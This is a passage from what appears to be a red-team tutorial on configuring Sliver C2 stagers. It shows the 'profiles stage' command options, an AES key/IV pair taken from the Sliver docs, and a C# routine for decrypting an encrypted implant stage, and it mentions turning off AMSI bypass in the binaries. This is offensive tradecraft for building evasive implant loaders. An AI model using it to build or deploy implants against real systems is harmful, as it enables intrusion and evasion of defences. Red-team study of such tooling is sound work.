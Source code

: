 Now, when sliver generates its binaries, it will not include AMSI bypass.

### Applying AES Encryption

Now let's take a look at the settings I can apply to stager in sliver by running `profiles stage`

```
sliver > profiles stage

Error: accepts 1 arg(s), received 0
Usage:
   profiles stage [flags]

Flags:
  -i, --aes-encrypt-iv string    AES Encryption IV
  -k, --aes-encrypt-key string   AES Encryption Key
  -c, --compress string          Compress stage (zlib, gzip, deflate9 or deflate)
  -h, --help                     help for stage
  -n, --name string              Implant name
  -p, --prepend-size             Prepend stage size
  -r, --rc4-encrypt-key string   RC4 encryption key
  -s, --save string              directory/file to the binary to

Global Flags:
  -t, --timeout int   grpc timeout in seconds (default 60)
```

Here, we're mostly interested in `--aes-encrypt--key` and `--aes-encrypt-iv`. When trying to supply my own AES Key/IV pair, sliver gave me an error. I'm not entirely sure why, but this is currently being tracked in GitHub issue [#1848](https://github.com/BishopFox/sliver/issues/1848). Nonetheless, providing `--aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT` and `--aes-encrypt-iv 8y/B?E(G+KbPeShV` as seen in the [sliver docs](https://github.com/BishopFox/sliver/wiki/Stagers/e2b8417c1434c926daf746f9e85146566972a69e) works. 

Since the binary we're receiving from the stage-listener is encrypted, our script will have to include a decrypt functionality.  Thankfully sliver documentation also includes a prewritten C# AES decryption function (see below).

```
private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)

        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;
                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key,                    aesAlg.IV);
                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new                                             CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }
```
 